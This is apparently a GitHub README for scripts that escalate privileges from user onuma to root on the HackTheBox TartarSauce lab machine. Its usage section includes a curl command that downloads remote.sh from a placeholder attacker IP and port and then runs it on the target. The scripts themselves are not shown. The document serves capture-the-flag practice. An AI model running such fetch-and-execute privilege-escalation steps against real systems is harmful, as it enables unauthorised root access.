


# HackTheBox Environment
- Macine: [TartarSauce](https://app.hackthebox.com/machines/TartarSauce)
- Info: HackTheBox TartarSauce, Privilege Escalation process from onuma to root.

# Usage

change your own local ip and port before executing these scripts.

- local host
```
git clone https://github.com/zhsh9/HTB-TartarSauce-PrivEsca.git --depth 1
cd HTB-TartarSauce-PrivEsca
chmod +x local.sh
./local.sh
```

- remote host
```bash
curl -O http://<IP>:<PORT>/remote.sh
chmod +x remote.sh
./remote.sh
```

# Screenshot




